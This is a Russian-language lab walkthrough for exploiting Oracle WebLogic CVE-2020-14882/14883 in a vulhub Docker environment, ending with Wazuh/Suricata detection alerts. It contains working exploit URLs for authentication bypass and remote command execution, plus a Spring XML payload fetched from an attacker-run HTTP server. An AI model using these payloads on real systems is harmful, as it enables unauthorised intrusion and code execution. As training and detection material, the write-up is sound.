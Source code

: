 # CVE-2020-14882/3

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2020-14882](https://nvd.nist.gov/vuln/detail/CVE-2020-14882)
* [https://www.opencve.io/cve/CVE-2020-14882](https://www.opencve.io/cve/CVE-2020-14882)
* [https://nvd.nist.gov/vuln/detail/CVE-2020-14883](https://nvd.nist.gov/vuln/detail/CVE-2020-14883)
* [https://www.opencve.io/cve/CVE-2020-14883](https://www.opencve.io/cve/CVE-2020-14883)

Oracle WebLogic Server — ведущий в отрасли сервер приложений для создания корпоративных приложений с использованием стандартов Java EE.

CVE-2020-14882 позволяет пользователям обходить аутентификацию в компоненте консоли администратора, а CVE-2020-14883 позволяет аутентифицированному пользователю выполнять любую команду в этой консоли.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/weblogic/CVE-2020-14882

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:7001 будет доступна страница входа в консоль администратора

<figure><img src="../../.gitbook/assets/cve-2020-14882(1).png" alt=""><figcaption></figcaption></figure>

Для обхода аутентификации и реализации CVE-2020-14882 вставьте соответствующий URL в поисковую строку

```
http://ваш-ip:7001/console/css/%252e%252e%252fconsole.portal
```

<figure><img src="../../.gitbook/assets/cve-2020-14882(2).png" alt=""><figcaption></figcaption></figure>

После реализации уязвимости нам не хватает привилегий для загрузки файлов

<figure><img src="../../.gitbook/assets/cve-2020-14882(3) (1).png" alt=""><figcaption></figcaption></figure>

#### Метод 1

Обойти это можно, вставив соответствующий URL в поисковую строку с полезно нагрузкой "touch /tmp/success1"

```
http://ваш-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

<figure><img src="../../.gitbook/assets/cve-2020-14882(4).png" alt=""><figcaption></figcaption></figure>

#### Метод 2

Выполнить удаленную команду можно с помощью обращения к .xml файлу, содержащему внутри себя полезную нагрузку

Для этого вставьте следующее содержимое в ваш файл и сохраните его

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

Затем с помощью Python3 поднимаем http-сервер на удаленной машине с помощью команды `python3 -m http.server <port>`

Затем вставляем следующий URL в адресную строку

```
http://ваш-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://удаленный-ip:порт/rce.xml")
```

После отправки будет выполнено содержимое .xml файла, в данном случае будет создан файл /tmp/success2

<figure><img src="../../.gitbook/assets/cve-2020-14882(5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/cve-2020-14882(6).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/cve-2020-14882(7).png" alt=""><figcaption></figcaption></figure>
